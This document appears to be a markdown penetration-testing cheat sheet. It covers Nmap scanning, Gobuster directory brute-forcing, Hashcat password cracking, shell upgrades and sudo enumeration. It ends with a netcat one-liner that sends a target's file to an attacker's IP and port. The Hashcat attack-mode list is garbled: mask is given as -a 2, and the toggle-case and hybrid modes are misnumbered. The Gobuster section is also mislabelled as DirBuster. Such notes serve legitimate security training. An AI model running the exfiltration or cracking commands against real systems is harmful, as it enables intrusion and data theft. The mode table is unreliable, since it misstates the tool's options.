 # Penetration Testing Basics

## Reconnaissance

### Active Reconnaissance with Nmap

Nmap (Network Mapper) is a powerful tool used to discover hosts and services on a computer network. It is commonly used during penetration testing for port scanning, service detection, and operating system identification.

#### Common Nmap Options:
- `-sS`: Performs a stealthy SYN scan.
- `-sV`: Detects service versions.
- `-O`: Detects the operating system.
- `-A`: Enables OS detection, version detection, script scanning, and traceroute.
- `-T2`: Sets a "polite" timing template to reduce network congestion or detection.
- `-p-`: Scans all 65,535 TCP ports.
- `target_ip`: Replace this with the IP address of your target.

#### Full Nmap Command:
```bash
nmap -sS -sV -O -A -T2 -p- target_ip
```

### Gobuster Command
DirBuster is a powerful tool for brute-forcing directories and file names on a web server to enumerate hidden resources
```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
In Kali there is a GUI version called DirBuster
![image](https://github.com/user-attachments/assets/cbd21222-0f45-47da-bc48-99025523a4c5)


#### Hashcat Usage Guide

Hashcat is a powerful password cracking tool that supports multiple hash algorithms and attack modes. This guide covers the essential options and their explanations to help you get started.

#### Basic Syntax

```bash
hashcat -m <hash_mode> -a <attack_mode> <hash_file> <wordlist>
```
#### Hashcat Attack Modes:

- `-a 0`: **Straight** (Dictionary attack)  
  Tries each word in the wordlist.  
  Example: `hashcat -m 0 -a 0 hash.txt rockyou.txt`

- `-a 1`: **Combination**  
  Combines two wordlists.  
  Example: `hashcat -m 0 -a 1 hash.txt wordlist1.txt wordlist2.txt`

- `-a 2`: **Mask**  
  Generates passwords based on a mask pattern.  
  Example: `hashcat -m 0 -a 2 hash.txt ?l?l?d?d`

- `-a 3`: **Brute-force**  
  Tries all combinations of a given character set.  
  Example: `hashcat -m 0 -a 3 hash.txt ?a?a?a?a`

- `-a 4`: **Toggle-case**  
  Tries passwords with different case variations.  
  Example: `hashcat -m 0 -a 4 hash.txt`

- `-a 5`: **Hybrid Mask + Wordlist**  
  Combines a wordlist and a mask.  
  Example: `hashcat -m 0 -a 5 hash.txt wordlist.txt ?d?d`

#### Common Hashcat Hash Modes:

- `-m 0`: MD5  
- `-m 100`: SHA1  
- `-m 1400`: SHA256  
- `-m 1700`: SHA512  
- `-m 3000`: LM  


## Exploit

#### Useful commands:

- `cat /etc/os-release `: **OS version**
- `script /dev/null -c /bin/bash`: **Get a bash shell**
- `sudo -l`: **List our commands you can run as root**



## Hands on Objectives

#### Useful commands:
using scp to transfer files
- `scp "Using OpenVAS.pdf" character@10.10.14.60:/path/to/destination/`
- Local Machine: `nc -lvnp <PORT> >` Target Machine: `cat '<filename>' | nc <YOURIPADDRESS> <PORT>`
